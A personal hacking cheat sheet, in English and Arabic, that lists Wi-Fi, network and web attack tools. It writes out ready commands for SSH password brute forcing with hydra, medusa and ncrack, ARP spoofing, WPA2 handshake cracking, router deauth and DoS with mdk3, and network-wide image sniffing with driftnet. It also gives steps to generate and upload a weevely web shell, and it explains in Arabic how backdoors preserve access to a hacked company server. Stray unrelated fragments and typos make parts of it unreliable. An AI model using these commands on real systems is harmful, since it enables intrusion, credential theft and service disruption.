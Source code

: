 
attack types:
- Dictionary Attack=Wordlist attack==straight mode
- brute force attack (تخمين) dictionary attack
- DOS attack (حجب الخدمة)
- evil twin attack linset improved to -> Fluxion
- MITM (Man In The Medile) Attack
- inside & outside attack
 

SQL injection
XSS
-----------------------------------------------------------------------------------------------------

bcmon
nexmon

ARP table
arp spoofing === ARP Poisoning
Phishing -> تصيد (fake site)
scam
rainbow table
deauth packets
apt-get install miniupnpc; upnpc -a <your_ip> <port> <port_again> TCP;
IP
MAC address
Broadcast = 19.
Gateway = 192.168.1.1 -> ruter IP
port
socket = IP + port
wep: (Wifite – Fern Wifi Cracker) (64bit = 5:10) (128bit = 13:26 char) (fixed key)
wpa / wpa2: (256bit = 8:63 char) (Dynamic keys among router and clients)
wpa3:
wps:  pin (fixed) (8 char) tools:(Reaver === Bully)


status code

https://canyouseeme.org/
https://stalkscan.com/


-----------------------------------------------------------------------------------------------------
- hashcat -> hashing
  - jonn
- Nmap -> network scan
  - nc (netcat)
  - wireshark
- AirCrack-ng suite
- MDK3 && MDK5
- RouterSploit
  - 
- Metasploit framework
- macchanger
- vpn
- proxy chain
-----------------------------------------------------------------------------------------------------




- metasaploit framework [msf]
- msfvenom = {msf payload + msf encoder}


fcrackzip brute force at zip files
---------------------------------------------------------------------------------------------------------------------
CLI
=====
- wifite2
- 
- nmap: port scanning
- hydra -l <username> -P <wordlist_path> -t 4 192.1681.1.7 ssh: brute force -> password list === medusa -h 192.168.1.7 -M ssh -u <username> -p === ncrack -v(verbose) -u <user>|| -U <file> -p <wordlist>
/usr/share/wordlists/nmap.lst:
- dirb: scan directories name by using wordlist


- netdiscover: -r(--range)192.168.1.0/24 -> network watcher 
- arpspoof -i(interface) -t(target) <router_ip> -> netcut
- hash-identifier: -> to know hash type
- hashcat (GPU & CPU)=== john(CPU only): --show <file_name>; -> brute force at hashing = Hash Buster
- wpscan: -> wordpress scan || https://wpscans.com/
- weevely generate <path>:/home/donwloads/shell.php <password>:123456 -> upload it at the website -> weevely http://192.168.1.104/uploud_files/shell.php 123456



- crunch 8 8 -o /home/pass.lst : generate password list
- cupp :generate password list using social engineering

- besside-ng <network_interface_name> : wifi handshake ==airdump-ng

- aircrack-ng -a2(wpa2) -w(wordlist_file) /root/wordlist.lst /handshake.cap


- airmon-ng     :: airmon start wlan0
- mdk3 <interface> -i-> doss attack on routers

websploit
wifi/wifi_jammer
show options
set ESSID mostafa .....
run
pentestbox  hack tools in windows
---------------------------------------------------------------------------------------------------------------------
GUI
====
- zenmap (nmap)
- sparta (nmap & hidera)
- DirBuster (dirb)
- johnny (john)
- vega
- casefile
---------------------------------------------------------------------------------------------------------------------


maltego


- https://www.vulnhub.com


andorid
======
WIBR+ -> hydra an d madusa

route -n
ettercap





تستطيع استخدام هذه الأداة بدون الحاجة إلى ettercap  
driftnet -i eth0 -a -p -d /root/Desktop/Pictures -v
هذا الأمر سيقوم بالتقاط الصور على مستوى الشبكة كاملة 
eth0 : كرت الشبكة الموجود 
/root/Desktop/Pictures : المسار الذي سيقوم البرنامج بحفظ الصور الملتقطة﻿




أخي هل من أدات قوية تخمن على كلمة سر الشبكة بدون ورد ليست فقط بالهاندشاك﻿
اجل بتوزيعه wifislax يوجد  اداة Brutushack 

Spoofing إنتحال


ال BACKDOOR وببساطه بيقوم بفتح SSH حتى يمكنك من عمل مدخل الى النظام.

فرضا لو انك استغرقت يومين باختراق سيرفر شركه و تعبت عليه اكيد مش رح تعيد كل اشي اذا حبيت ترجع تخترقو لا انت بتعمل backdoor عشان تكون العمليه اسرع
يعني بتلخص عمل ال backdoors:
-تامين المدخل 
-تنفيذ ال payloads والاوامر
-وتسمحلك بالدخول


دي حاجة اسمها Mixed Content نتيجة اني ممكن يكون الموقع كان شغال HTTP و بعدين ركبوا HTTPS فاللي حصل انوا طلعلك تحذير اني الموقع كلوا مش HTTPS بس كدة connection is not fully secured



Hakers keylogger

shodan
inssider



-------------------------------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------------------------------
--help. Next to that, the 7zip-package contains extensive documentation. Look for examples.txt


> Cyber Security:
- Creaptography
- pentration testing
- 





-------------------------------------------------------------------------------------------------------------








as well as Solaris and even eComStation 2








https://www.youtube.com/channel/UCNtcxh_If5xsZ7mFTGV-0pQ/videos




Steganography










> [PentesterAcademy](https://):
- Python for Penetration Testers








Books:
- practical malware analysis






ESSID: network name
BSSID: router MAC address


wifi:
- cupture handshake and brute force 
- evil twin
- brute force at router admin panal



 Kodachi vs Tails 


microsoft web server : iis



nmap -sS<running_servise_name> -O<opreating_sys_type> -p-<open_ports> -A<run_services> -v<verbose> -oX result.xml -T4 192.168.1.11

------------------------------------------------------------------------------------------------------------------------------------------